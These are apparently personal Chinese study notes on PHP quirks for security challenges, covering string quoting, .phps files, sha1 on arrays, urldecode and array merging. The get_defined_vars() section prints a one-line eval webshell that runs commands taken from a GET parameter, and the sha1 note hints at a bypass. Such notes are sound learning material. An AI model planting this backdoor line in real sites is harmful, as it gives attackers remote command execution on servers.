 ## PHP中的一些未整理完的东西
>持续更新
### 关于PHP字符串中的引号

PHP的字符串中，双引号完全支持转义字符，也支持在打印里面的变量（如果不想打印，需要写成\$）。

单引号，除非是要在单引号里面打印单引号，需要进行转义。否则，单引号中不支持其它任何形式的转义。
```php
//只有这种情况是可以转义的
$a = 'I\'m a good man.';
//打印结果为：I'm a good man.
//其它情况
$b = "hah";
$c = "a";
$a = '$b $c';
//打印结果为：$b $c
```
### PHP源码文件

有时候源码会写在后缀为phps的文件里，比较坑。
>https://zhidao.baidu.com/question/43693848.html

#### get_defined_vars()
该函数会返回一个数组，里面包含当前所有已经定义的服务器变量，环境变量和用户变量。
```php
//利用该函数可以构造一句话木马
@eval(get_defined_vars()['_GET']['cmd']);
```

#### 可以执行系统命令
https://blog.csdn.net/Auuuuuuuu/article/details/88778852

https://cloud.tencent.com/info/8ceed38d46829f15abfea34a9b82a7ff.html 

#### sha1函数
sha1函数不能加密数组，返回值为false。

该特性经常被用于一些绕过之中。

#### urldecode
当一个url被访问的时候，php会先将url进行url解码一次。使用的方法可参考如下博文。

>https://www.cnblogs.com/xccjmpc/p/3348710.html

#### php数组
PHP的数组之间可以互相合并，可以使用+运算符，或者array_merge()函数进行合并。但是二者的效果是不一样的。

对于array_merge()函数，如果输入的数组中有相同的字符串键名，则该键名后面的值将覆盖前一个值。然而，如果数组包含数字键名，后面的值将不会覆盖原来的值，而是附加到后面。

对于+，则是+左边的参数可以覆盖+右边的参数。
```php
<?php

$a = array("cat","dog");
$b = array("flag","fff","test");
var_dump($a+$b);
echo "<br>";
$c = array_merge($a,$b);
var_dump($c);
?>
```
结果
```txt
array(3) { [0]=> string(3) "cat" [1]=> string(3) "dog" [2]=> string(4) "test" } 
array(5) { [0]=> string(3) "cat" [1]=> string(3) "dog" [2]=> string(4) "flag" [3]=> string(3) "fff" [4]=> string(4) "test" }
```